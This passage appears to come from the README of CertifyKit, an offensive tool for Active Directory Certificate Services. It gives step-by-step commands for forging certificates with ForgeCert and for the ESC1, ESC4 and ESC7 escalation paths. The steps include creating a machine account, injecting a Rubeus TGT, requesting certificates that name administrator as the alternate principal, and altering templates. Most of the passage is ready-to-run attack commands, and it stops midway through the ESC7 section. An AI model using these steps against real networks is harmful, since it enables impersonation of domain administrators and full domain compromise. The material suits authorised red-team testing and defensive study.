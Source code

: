 Forge a certificate with subject alternative name "administrator@corp.local" offline with [ForgeCert](https://github.com/GhostPack/ForgeCert)

```
ForgeCert.exe --CaCertPath gold.p12.p12 --CaCertPassword "" --Subject "CN=administrator" --SubjectAltName "administrator@corp.local" --NewCertPath admin.pfx --NewCertPassword ""
```

#### ESC1 - *Misconfigured Certificate Templates* (Machine Context)

Certify supply option `/machine` to request certificate in machine account context. It requires administrative privilege on local machine. Instead, we could

Create machine account

```
CertifyKit.exe account /machine:mypc /password:P@ssw0rd123 /create
```

Inject TGT of machine account with [Rubeus](https://github.com/GhostPack/Rubeus)

```
Rubeus.exe asktgt /user:mypc /password:P@ssw0rd123 /ptt
```

Request a new certificate for vulnerable template/CA, specifying a  `administrator` as the alternate principal, and install the certificate: 

```
CertifyKit.exe request /ca:corpadcs.corp.local\corp-CORPADCS-CA-1 /template:VulnTemplate /altname:administrator /install
```

#### ESC4 - *Vulnerable Certificate Template Access Control*

If we have write privilege and enroll privilege over a certificate template, we could alter the template to smart card template which vulnerable as ESC1

```
CertifyKit.exe request /ca:corpadcs.corp.local\corp-CORPADCS-CA-1 /template:VulnTemplate /alter /altname:administrator
```


#### ESC7 - *Vulnerable Certificate Authority Access Control*

Assume we are CA manager. We could escalate privilege by issuing pending/deleted certificate

Enroll a new certificate for a template vulnerable as ESC1 except no enroll right require. Default template `SubCA` fulfil the requirement. Failed enrollment is expected.

```
CertifyKit.exe request /ca:corpadcs.corp.local\corp-CORPADCS-CA-1 /template:SubCA /altname:administrator
```

Issue the failed certificate request with CA manager privilege (the command work on server 2016+ only)
